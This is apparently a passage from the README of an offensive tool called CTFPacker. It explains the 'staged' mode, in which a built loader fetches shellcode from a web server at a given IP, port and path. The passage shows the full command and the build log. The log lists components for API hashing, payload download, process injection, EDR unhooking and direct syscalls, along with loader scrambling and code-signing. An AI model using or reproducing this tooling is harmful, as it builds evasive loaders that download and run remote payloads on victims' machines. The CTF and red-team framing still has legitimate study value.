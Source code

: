 ### Staged

When using the staged "mode", the packer will generate you a .bin file named accordingly to your `-o` arg. With the `-pa` argument, you are actually telling the loader *where* on the websever (basically the path) it should search for that .bin file. So TLDR those two values should usually be the same.

Example:

```powershell
python main.py staged -p "C:\Code\CTFPacker\calc.bin" -i 192.168.2.121 -po 8080 -pa /shellcode.bin -o shellcode -s -si



 ▄████▄  ▄▄▄█████▓  █████▒██▓███   ▄▄▄       ▄████▄   ██ ▄█▀▓█████  ██▀███
▒██▀ ▀█  ▓  ██▒ ▓▒▓██   ▒▓██░  ██▒▒████▄    ▒██▀ ▀█   ██▄█▒ ▓█   ▀ ▓██ ▒ ██▒
▒▓█    ▄ ▒ ▓██░ ▒░▒████ ░▓██░ ██▓▒▒██  ▀█▄  ▒▓█    ▄ ▓███▄░ ▒███   ▓██ ░▄█ ▒
▒▓▓▄ ▄██▒░ ▓██▓ ░ ░▓█▒  ░▒██▄█▓▒ ▒░██▄▄▄▄██ ▒▓▓▄ ▄██▒▓██ █▄ ▒▓█  ▄ ▒██▀▀█▄
▒ ▓███▀ ░  ▒██▒ ░ ░▒█░   ▒██▒ ░  ░ ▓█   ▓██▒▒ ▓███▀ ░▒██▒ █▄░▒████▒░██▓ ▒██▒
░ ░▒ ▒  ░  ▒ ░░    ▒ ░   ▒▓▒░ ░  ░ ▒▒   ▓▒█░░ ░▒ ▒  ░▒ ▒▒ ▓▒░░ ▒░ ░░ ▒▓ ░▒▓░
  ░  ▒       ░     ░     ░▒ ░       ▒   ▒▒ ░  ░  ▒   ░ ░▒ ▒░ ░ ░  ░  ░▒ ░ ▒░
░          ░       ░ ░   ░░         ░   ▒   ░        ░ ░░ ░    ░     ░░   ░
░ ░                                     ░  ░░ ░      ░  ░      ░  ░   ░
░                                           ░



        Author: mocha
        https://mochabyte.xyz

[i] Staged Payload selected.
[+] Starting the process...
[i] Corresponding template selected..
[+] Template files modified !
[i] Encryption not selected.
[+] Compiling the loader...
[i] Scrambling selected.
[+] Scrambling the loader...
[+] Loader scrambled !
[i] Signing selected.
[+] Signing the loader...
rm -f *.o *.obj ctfloader.exe
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c api_hashing.c -o api_hashing.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c download.c -o download.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c inject.c -o inject.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c main.c -o main.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c unhook.c -o unhook.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -c whispers.c -o whispers.o
nasm -f win64   whispers-asm.x64.asm -o whispers-asm.o
C:\msys64\mingw64\bin\clang -static -O0 -Wall -w -o ctfloader.exe api_hashing.o download.o inject.o main.o unhook.o whispers.o whispers-asm.o -Wl,--disable-auto-import -s -lwinhttp -lntdll
Connecting to http://timestamp.sectigo.com
Succeeded
[+] Loader signed !
[+] DONE !
```
